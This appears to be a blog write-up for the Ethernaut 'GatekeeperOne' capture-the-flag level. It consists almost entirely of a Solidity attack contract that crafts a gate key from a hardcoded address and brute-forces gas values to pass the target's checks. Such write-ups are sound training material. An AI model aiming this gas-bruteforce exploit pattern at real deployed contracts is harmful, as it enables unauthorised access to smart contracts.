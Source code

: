 +++
title = 'Ethernaut Level 13 - Gatekeeperone'
date = 2024-04-14
draft = false

featured_image =  '/images/ethernaut.png'
background_image= '/images/ethernaut.png'
summary = 'Break some gates'
tags = [ 'writeups' , 'blockchain' ]
+++

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Gatekeeperone {
    function enter(bytes8 _gateKey) external returns (bool);
}

contract Hack {
    event Log(string message);

    address player = 0x3fE440d3D0A0140FaFBC56915C429dfC14De06D5;
    // Create key to pass gate 3
    bytes8 key;
    Gatekeeperone target;
    constructor(address _target) {
        target = Gatekeeperone(_target);
        uint64 gateKey = uint16(uint160(player));
        gateKey += 0x100000000;
        key = bytes8(abi.encodePacked(gateKey));
        
    }

    function attempt() public {
        // Bruteforce until gas price is correct
        for (uint256 i = 0; i < 300; i++){
            // Use `call` interface to set gas price
            // IMPORTANT target.enter{gas: _gas} does not seem to work
            (bool success,) = address(target).call{gas: (8191 * 3) + i}(abi.encodeWithSignature("enter(bytes8)", key));
            if (success) {
                break;
            }
        }

        
    }
}
```solidity